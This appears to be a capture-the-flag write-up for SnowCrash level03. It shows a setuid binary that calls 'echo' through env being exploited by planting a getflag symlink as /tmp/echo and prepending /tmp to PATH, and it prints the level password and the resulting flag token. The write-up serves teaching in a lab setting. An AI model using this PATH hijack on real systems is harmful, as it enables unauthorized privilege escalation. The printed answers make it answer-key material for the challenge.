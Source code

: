 # Level 03 : found flag03

```bash
flag02@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

We saw that there is an executable with the rights of `flag03`.

```
3@SnowCrash:~$ cat level03
[..]
...O����[�/usr/bin/env echo Exploit me;0p�...
[..]
```
The part who wrote `Exploit me` is the echo command, with `/usr/bin/env` before.

`/usr/bin/env` is to define that the command after will be found in the `PATH`.
```bash
3@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

So as we have write righ in `/tmp` we can create an symbolic link of `getflag` in `/tmp` as `/tmp/echo`, then add `/tmp` to the `PATH` environnement.

```bash
level03@SnowCrash:~$ which getflag
/bin/getflag
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

Then we just have to launch the executable.

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

****************************************

Documentations :
* https://vi.stackexchange.com/questions/2232/how-can-i-use-vim-as-a-hex-editor
* https://vim.fandom.com/wiki/Improved_hex_editing
* https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code